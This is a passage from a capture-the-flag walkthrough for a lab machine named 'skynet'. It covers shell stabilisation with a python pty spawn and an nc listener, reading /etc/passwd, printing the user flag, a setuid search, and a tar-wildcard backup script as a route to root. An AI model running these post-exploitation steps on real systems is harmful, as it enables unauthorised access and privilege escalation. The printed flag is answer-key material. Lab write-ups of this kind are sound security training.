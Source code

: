 Stabilize shell

```bash
www-data@skynet:/var/www/html/45kra24zxs28v3yd/administrator/alerts$ python3 -c "import pty;pty.spawn('/bin/bash')"
<strator/alerts$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@skynet:/var/www/html/45kra24zxs28v3yd/administrator/alerts$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(kali㉿kali)-[~/thm/skynet]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111

www-data@skynet:/var/www/html/45kra24zxs28v3yd/administrator/alerts$ 
```

Enum users

```bash
<ml/45kra24zxs28v3yd/administrator/alerts$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
```

User flag

```bash
<ml/45kra24zxs28v3yd/administrator/alerts$ cd /home/milesdyson
www-data@skynet:/home/milesdyson$ ls
backups  mail  share  user.txt
www-data@skynet:/home/milesdyson$ cat user.txt
7ce5c2109a40f958099283600a9ae807
```


### What is the root flag?

No vulnerable setuid binary found

```bash
find / -type f -perm /u=s+ -ls 2>/dev/null
```

List files in the user dir

```bash
www-data@skynet:/home/milesdyson$ find .
.
./.bash_history
./.bash_logout
./backups
./backups/backup.sh
./backups/backup.tgz
./share
./share/Improving Deep Neural Networks.pdf
...

www-data@skynet:/home/milesdyson$ cat ./backups/backup.sh

#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
